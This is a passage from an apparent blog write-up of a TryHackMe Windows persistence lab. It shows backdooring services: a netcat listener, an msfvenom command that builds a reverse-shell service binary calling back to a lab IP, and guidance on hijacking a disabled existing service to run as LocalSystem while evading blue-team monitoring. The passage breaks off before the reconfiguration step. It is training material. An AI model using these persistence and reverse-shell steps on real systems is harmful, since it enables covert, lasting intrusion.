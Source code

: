 ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396523988/73f57fd4-6a03-495f-ab34-9adf183938b6.png align="center")

```bash
rlwrap -cAr nc -lvnp 1337
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396536061/541da267-3495-4072-bfb6-9d36f4f5d44c.png align="center")

```powershell
sc.exe start THMservice2
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396558073/339e07a4-0b34-4c5e-826a-6515ac17f40e.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396560906/12ad62b1-432d-4030-990f-1d8249263031.png align="center")

Grab `flag7.exe`.

### Modifying Existing Services

Considering that blue teams will be monitoring newly created services, we should avoid doing so and instead incorporate a backdoor into an existing service. A suitable method for this is to modify a legitimate, yet disabled, service. We can search for these by typing:

```powershell
sc.exe query state=all
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396624858/caa0b259-c718-4b95-b775-ec0111dbcfca.png align="center")

There is a stopped service called `THMService3`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396642136/fc25c9a8-2ed3-43e2-8cbb-bd42847d63c7.png align="center")

When altering an existing service, it is important to modify these three parameters:

1. `BINARY_PATH_NAME` = point to our payload
    
2. `START_TYPE` = auto
    
3. `SERVICE_START_NAME` = set to LocalSystem to help us maintain SYSTEM priv
    

Let's create a new reverse shell for this process.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f exe-service -o rev-svc2.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396707428/cf6138f3-c42c-4d7c-b880-c8407871a1c7.png align="center")

Now, we want to upload the file using `Evil-WinRM`:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396727784/e63b4ef0-eece-471b-95b7-5ee14dfc61c4.png align="center")

Reconfigure the `THMService3` parameters:
